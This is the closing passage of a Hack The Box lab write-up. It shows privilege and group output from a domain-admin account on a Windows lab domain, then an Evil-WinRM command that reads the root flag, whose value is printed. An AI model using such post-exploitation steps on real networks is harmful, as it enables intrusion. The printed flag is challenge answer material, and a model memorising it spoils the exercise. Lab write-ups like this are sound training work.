NT AUTHORITY\This Organization                  Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Domain Admins                          Group            S-1-5-21-1392959593-3013219662-3596683436-512  Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                            Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                              Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
MEGABANK\Denied RODC Password Replication Group Alias            S-1-5-21-1392959593-3013219662-3596683436-572  Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication                Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level            Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### root.txt

After escalating to `Domain Admin` it was simple to find the root flag on the Administrator's `Desktop\`.  I did continue to run into one problem...other HTB users kept either resetting the box, or running the exploit themselves and in the process killing my shell.  It helps to know where the flag is and to grab it as quickly as possible!

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> cat ../../Administrator/Desktop/root.txt
ebdd1e01af7b2f1a53a1ef844a5d465c
```

Thanks to [`egre55`](https://www.hackthebox.eu/home/users/profile/1190) for a fun and easy Windows box. I did still learn some new things while going though this one.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

